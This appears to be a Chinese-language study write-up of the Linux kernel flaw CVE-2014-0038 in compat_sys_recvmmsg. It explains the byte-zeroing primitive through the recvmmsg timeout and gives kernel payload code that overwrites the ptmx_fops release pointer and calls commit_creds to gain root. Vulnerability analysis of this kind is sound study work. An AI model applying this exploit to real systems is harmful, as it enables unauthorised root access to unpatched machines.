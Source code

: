 +++
title = "CVE-2014-0038"
date = "2014-04-16"
tags = ["socket", "security", "networking"]
+++

利用漏洞将 ``ptmx_fops`` 返回函数的高字节置零，让它指向payload。然后payload在被kernel执行，调用 ``commit_cred`` 获取root。

# Vulnerability

```c
asmlinkage long compat_sys_recvmmsg(int fd, struct compat_mmsghdr __user *mmsg, unsigned int vlen, unsigned int flags, struct compat_timespec __user *timeout)
{
  int datagrams;
  struct timespec ktspec;
  
  if (flags & MSG_CMSG_COMPAT)
    return -EINVAL;
  
  if (COMPAT_USE_64BIT_TIME)
    return __sys_recvmmsg(fd, (struct mmsghdr __user *)mmsg, vlen,
      flags | MSG_CMSG_COMPAT,
      (struct timespec *) timeout);
  ...
```
        
``timeout`` 是从userland传过来的指针，随后被直接（只做了cast ``(struct timespec *) timeout`` ）传给系统调用 ``__sys_recvmmsg`` 。

- Why ``CONFIG_X86_X32`` is mandatory?


```c
struct timespec {
  __kernel_time_t tv_sec;     /* seconds */
  long    tv_nsec;    /* nanoseconds */
};
typedef __kernel_long_t __kernel_time_t;
```

``__sys_recvmmsg`` 中有两处修改了 ``void *timeout`` .

- 读取 ``timeout``

```c
if (timeout && 
        poll_select_set_timeout(&end_time, timeout->tv_sec,
          timeout->tv_nsec))  // READ ONLY, end_time = timeout
  return -EINVAL;
```
- 更新 ``timeout``

```c
if (timeout) {
  ktime_get_ts(timeout);                         // get now
  *timeout = timespec_sub(end_time, *timeout);   // A - B
  if (timeout->tv_sec < 0) {                     // if timeout really happens
    timeout->tv_sec = timeout->tv_nsec = 0;
    break;                                     // return
  }

  /* Timeout, return less than vlen datagrams */
  if (timeout->tv_nsec == 0 && timeout->tv_sec == 0)
    break;
}
```

所以返回前将 ``timeout->tv_sec = timeout->tv_nsec = 0;``

## 清除一个字节的过程

1. 主进程 ``retval = syscall(__NR_recvmmsg, sockfd, &msgs, 1, 0, (void*)addr)``; 其中 ``addr & 0xFF == 0xFF``
2. 子进程 ``sleep(254)`` 然后 sendto
3. 因为父进程调用 ``recv`` 长达254s之后子进程才发送，所以父进程的调用 ``__NR_recvmmsg`` 会超时
4. 超时发生时，``addr`` 被写 ``0``，然后返回。

# 获取root

- 利用了 ``ptmx_fops`` 的release function指针（在non initialized (and thus writable) kernel memory中） 
- 将指针的高3字节置0，使之指向用户空间中的payload
- Open ``/dev/ptmx``, close it and enjoy.

## payload构造


```c
// code 是payload地址
code = (long)mmap((void*)(TTY_RELEASE & 0x000000fffffff000LL), PAYLOADSIZE, 7, 0x32, 0, 0);
// 0x90 技法
memset((void*)code, 0x90, PAYLOADSIZE);
code += PAYLOADSIZE - 1024;
memcpy((void*)code, &kernel_payload, 1024);

// payload 构造
#define COMMIT_CREDS        0xffffffff8108ad40LL
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);

kernel_payload(void* foo, void* bar)
{
    _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
    _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;

    /* restore function pointer and following two longs */
    *((int*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 4)) = -1;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 8)) = 0;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 16)) = 0;

    /* escalate to root */
    commit_creds(prepare_kernel_cred(0));

    return -1;
}
```
    
# 疑问

1. 为什么 ``zero_out`` 只置零1个字节，而不是一个 ``long`` (16 bytes)？
